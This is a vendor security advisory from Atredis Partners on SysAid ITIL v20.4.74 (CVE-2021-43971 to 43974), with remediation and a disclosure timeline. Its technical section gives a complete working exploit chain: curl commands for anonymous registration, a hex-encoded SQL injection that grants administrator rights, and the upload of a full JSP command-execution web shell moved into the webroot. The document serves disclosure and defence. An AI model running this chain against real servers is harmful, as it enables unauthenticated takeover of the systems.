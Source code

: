# SysAid ITIL Multiple Vulnerabilities

## Vendors

* SysAid

## Affected Products

* ITIL v20.4.74 b10

## Summary

Multiple issues were found in SysAid ITIL that ultimately allow an unauthenticated attacker to gain remote code execution on the affected server. First, an attacker can register a user anonymously regardless of the registration feature flag being enabled or disabled. Once authenticated, a SQL injection vulnerability allows the new user to escalate their privileges to `administrator`. Once the user is an `administrator`, the attacker can upload a JSP file and copy it to the webroot, enabling remote code execution.

## Remediation/Mitigation

If running an on-premises SysAid ITIL system, updating to the latest version will resolve the issues described below. At the time of this writing, the latest version for on-premises customers is 21.2.35.

Additional details from SysAid are available here: https://www.sysaid.com/product/on-premises/latest-release

## Credit

This issue was found by Brandon Perry of Atredis Partners

## References

* https://nvd.nist.gov/vuln/detail/CVE-2021-43971
* https://nvd.nist.gov/vuln/detail/CVE-2021-43972
* https://nvd.nist.gov/vuln/detail/CVE-2021-43973
* https://nvd.nist.gov/vuln/detail/CVE-2021-43974
* https://github.com/atredispartners/advisories/ATREDIS-2022-0001.md
* https://www.sysaid.com/it-service-management-software/incident-management
* https://www.sysaid.com/product/on-premises/latest-release

## Report Timeline

* 2021-09-21: SysAid was notified, but the original emails and Proof-of-Concept (PoC) were blocked unbeknownst to both parties.
* 2021-10-05: SysAid confirmed receipt of the original PoC.
* 2021-11-17: CVE IDs were allocated and communicated to SysAid.
* 2021-12-22: SysAid confirmed and resolved issues.
* 2022-01-05: Atredis Partners published this advisory.

## Technical Details

### Create User

The `/enduserreg` endpoint, used to register end users anonymously, does not respect the server-side setting of whether to allow users to register. The server-side setting only hides the client-side registration form, but an attacker can still post registration data to the endpoint regardless of the server setting.

This endpoint requires that the outgoing email be configured. The user will be sent an email with the user's new password.

```sh
id=`curl $1/Login.jsp | ggrep -Eho 'accountid=(.*?)"' | cut -d '"' -f1 | cut -d '=' -f2`

curl -X POST --data "accountID="$id"&X_TOKEN_"$id"=%24tokenValue&thanksForm=thankyou.htm&X_TOKEN_"$id"_trial=%24tokenValue&email=$2&firstName=fdsa&lastName=fdsa&sms=&phone=&mobile=&Save=" $1/enduserreg

```

### SQL Injection
The following SQL injection attack will escalate the newly created user's permissions to an `administrator`. Once updated, the user will need to login again. 

```sh
# Issue is in the getMobileList method in SysAidUser.java
#
#
# public static String getMobileList(LoginInformationBean paramLoginInformationBean, String paramString1, String paramString2, boolean paramBoolean) {
#    StringBuffer stringBuffer = new StringBuffer();
#    int j = 100;
#    if (paramLoginInformationBean.getMobiletype() == b.d) {
#      j = b.i;
#    } else if (paramLoginInformationBean.getMobiletype() == b.f) {
#      j = b.k;
#    } else if (paramLoginInformationBean.getMobiletype() == b.g) {
#      j = b.l;
#    } else if (paramLoginInformationBean.getMobiletype() == b.e) {
#      j = b.j;
#    } 
#    Connection connection = null;
#    PreparedStatement preparedStatement = null;
#    ResultSet resultSet = null;
#    try {
#      connection = DBConnection.getInstance().getConn(paramLoginInformationBean.getAccountID());
#      String str1 = " ";
#      String str2 = "order by lower(calculated_user_name)";
#      if (paramString2 != null && paramString2.length() > 0) {
#        paramString2 = paramString2.toLowerCase();
#        str1 = " and lower(calculated_user_name) like '%" + paramString2 + "%' ";
#      } 
#
# Just above you can see paramString2 is used unsafely in the SQL query
#
curl -H "Cookie: JSESSIONID=$sess" http://192.168.1.113:8080/mobile/SelectUsers.jsp?filterText=1%27%3b%55%50%44%41%54%45%20%73%79%73%61%69%64%5f%75%73%65%72%20%53%45%54%20%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%3d%43%48%41%52%28%38%39%29%2c%6d%61%69%6e%5f%75%73%65%72%3d%43%48%41%52%28%38%39%29%20%57%48%45%52%45%20%75%73%65%72%5f%6e%61%6d%65%3d%27$2%27--
```

### Arbitrary File Upload
The file used in the commands below for the remote shell is `cmd.jsp`, shown below.
```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");

    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    }
    else{
        p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    }
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
    out.println(disr);
    disr = dis.readLine();
    }
}
%>

```

The `UploadPsIcon.jsp` page will allow an arbitrary upload and return the absolute server-side path of the file that we parse out of the response.
```sh
path=`curl -H "Referer: $1/UploadPsIcon.jsp?parent=UserSelfServiceSettings.jsp?uploadPsFile=true" -H "Cookie: JSESSIONID=$sess" -F "file1=@cmd.jsp" -F "X_TOKEN_$id=$token" "$1/UploadPsIcon.jsp?uploadPSFile=false&parent=UserSelfServiceSettings.jsp?uploadPsFile=true" 2>&1 | grep tempFile.value | cut -d '"' -f2`

echo $path
```

### Arbitrary File Read/Copy

Finally, the absolute path from the previous response is taken and a server-side move is performed using the `UserSelfServiceSettings.jsp` page which moves the uploaded JSP file to the webroot. Once moved, the JSP shell cannot be requested with a cookie. There must be no cookies in the request.

```sh
curl -X POST  -H "Referer: $1/UserSelfServiceSettings.jsp" -H "Cookie: JSESSIONID=$sess" --data "tabID=22&resetPasswordMethod=user&numberOfInvalidAttempts=5&blockUserMinutes=30&dummycaptcha=on&captcha=Y&enableGuest=N&userEmailAsIdentifier=N&PsImageUrl=&sendRandomCodeBySms=N&numberOfSecurityQuestions=2&answerMinimumLength=3&Apply=&OK=&Cancel=&Addtokb=&subAction=&reopenNote=&pageID=1&subPageID=1&replacePage=Y&changes=0&X_TOKEN_$id=$token&showAddFailMsgPopup=&paneMessage=&paneType=&paneBtnArrayButtons=&panePreSubmitFunc=&paneSubmitParentForm=&paneCancelFunc=hideOptionPane&tempFile=$path&fileName=cmd.jsp&psImageChange=true&id=" $1/UserSelfServiceSettings.jsp?uploadPsFile=true
```
